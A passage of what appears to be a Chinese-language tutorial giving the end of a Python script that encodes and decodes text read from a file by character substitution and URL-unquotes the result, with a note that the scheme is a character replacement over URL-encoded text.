}

#此函数可以用来加密明文也可以解密服务器返回的密文
def encode(code):
    out = ""
    for item in code:
        out = out + ENCODING_SCHEDULE.get(item, item)
    return out

def decode(code):
    out = ""
    for item in code:
        out = out + DECODING_SCHEDULE.get(item, item)
    return out

def read():
    with open('read.txt', 'r') as f:
        return f.read()

a=read()
b = decode(a)
c = encode(a)
print('Input:     ' + a + '\n')
print('decode:    ' + b + '\n')
print('decode-unquote-url:   '+unquote(b,'utf-8'))
print('encode:   '+c)
```

注：加密和解密的过程就是替换字符的过程，最终解密得到的是 url 编码，加密时传入的文本也要是 url 编码。